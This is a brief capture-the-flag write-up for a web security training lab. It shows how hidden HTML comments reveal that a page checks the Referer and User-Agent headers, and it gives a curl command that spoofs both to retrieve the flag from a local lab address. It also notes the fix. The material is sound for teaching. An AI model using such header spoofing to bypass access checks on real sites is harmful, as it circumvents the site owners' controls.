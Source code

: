 # HTTP Header

We can set custom `Referer` and `User-Agent` HTTP Header to access the flag.

## How-To

1. Go to `/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` (link in the footer)
1. Inspect code

	```html
	...
	<!--
	You must come from : "https://www.nsa.gov/".
	-->
	...
	<!--
	Let's use this browser : "ft_bornToSec". It will help you a lot.
	-->
	...
	```

1. Use the following command

	```sh
	curl --referer 'https://www.nsa.gov/' --user-agent 'ft_bornToSec' 'http://192.168.56.106/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' | grep flag
	```

## Fix

- Do no really on HTTP Header values.

## Details

- At first I thought the link was a flag, but it is not a security breach, just a link...

## Resources

- MDN : [Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referer)
- MDN : [User Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/User-Agent)
- Curl : [Referer](https://everything.curl.dev/http/modify/referer.html)
- Curl : [User Agent](https://everything.curl.dev/http/modify/user-agent.html)
